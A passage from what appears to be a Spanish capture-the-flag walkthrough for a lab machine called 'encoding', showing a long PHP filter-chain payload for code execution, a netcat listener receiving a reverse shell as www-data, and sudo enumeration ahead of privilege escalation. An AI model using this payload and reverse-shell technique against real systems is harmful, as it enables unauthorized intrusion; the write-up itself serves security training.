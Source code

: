 ```sh
.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Ahora inyectaremos el código que nos da en el burpsuite y nos pondremos en escucha con `netcat`

```sh
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.11.198] 47562
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
www-data@encoding:~/image/actions$ 
```

Tenemos una consola en el sistema, procederemos enumerando el sistema (permisos, privilegios, etc.)

Si nos fijamos en los privilegios que tenemos a nivel de sudoers, podemos ejecutar como el usuario `svc` el script `/var/www/image/scripts/git-commit.sh`

```sh
www-data@encoding:~$ sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
www-data@encoding:~$ 
```

